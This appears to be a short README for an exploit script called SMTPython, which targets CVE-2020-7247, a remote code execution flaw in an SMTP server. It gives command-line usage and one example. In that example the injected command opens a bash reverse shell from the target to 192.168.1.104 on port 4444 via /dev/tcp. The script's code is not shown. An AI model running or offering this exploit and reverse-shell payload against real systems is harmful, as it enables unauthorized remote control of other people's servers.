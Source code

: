 # SMTPython

smtp exploit script

CVE-2020-7247

RemoteCodeExecution


usage:

./SMTPython.py <RemoteHOST> <PORT> <Command> <name@host>
  
example:


./SMTPython.py 192.168.0.4 25 'bash -c "exec bash -i &> /dev/tcp/192.168.1.104 4444 <&1"' user@ubuntu

